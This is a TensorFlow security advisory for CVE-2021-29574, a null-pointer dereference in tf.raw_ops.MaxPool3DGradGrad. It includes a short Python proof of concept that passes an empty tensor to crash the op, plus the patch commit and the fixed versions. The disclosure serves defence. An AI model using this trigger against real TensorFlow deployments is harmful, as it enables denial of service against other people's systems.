 ## TFSA-2021-063: Undefined behavior in `MaxPool3DGradGrad`

### CVE Number
CVE-2021-29574

### Impact
The implementation of `tf.raw_ops.MaxPool3DGradGrad` exhibits undefined behavior
by dereferencing null pointers backing attacker-supplied empty tensors:

```python
import tensorflow as tf

orig_input = tf.constant([0.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
orig_output = tf.constant([0.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
grad = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)
ksize = [1, 1, 1, 1, 1]
strides = [1, 1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.MaxPool3DGradGrad(
    orig_input=orig_input, orig_output=orig_output, grad=grad, ksize=ksize,
    strides=strides, padding=padding)
```

The
[implementation](https://github.com/galeone/tensorflow/blob/72fe792967e7fd25234342068806707bbc116618/tensorflow/core/kernels/pooling_ops_3d.cc#L679-L703)
fails to validate that the 3 tensor inputs are not empty. If any of them is
empty, then accessing the elements in the tensor results in dereferencing a
null pointer.

### Patches
We have patched the issue in GitHub commit
[a3d9f9be9ac2296615644061b40cefcee341dcc4](https://github.com/galeone/tensorflow/commit/a3d9f9be9ac2296615644061b40cefcee341dcc4).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
